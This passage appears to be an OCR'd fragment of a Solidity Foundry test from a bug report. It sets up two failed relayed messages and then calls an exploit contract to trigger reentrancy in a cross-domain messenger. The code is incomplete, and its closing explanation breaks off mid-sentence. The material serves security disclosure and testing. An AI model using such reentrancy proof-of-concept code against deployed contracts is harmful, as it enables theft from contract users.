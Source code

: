 ```solidity
    }

    function setUp() public {

        bytes memory message = createMessage();

        messager.relayMessage(
            1,
            sender,
            target,
            0,
            minGasLimit,
            message
        );

        messager.relayMessage(
            2,
            sender,
            target,
            0,
            minGasLimit,
            message
        );

        exploit.setRevert(false);

    }

    function testReentrancy() public {

        console.log();
        console.log("phrase 2");

        bytes memory message = createMessage();

        exploit.call(
            address(messager),
            nonce,
            sender,
            target,
            0,
            minGasLimit
        );

    }

}

```

basically in the set up, the user prepare two failed transaction and toggle the will revert flag and call 
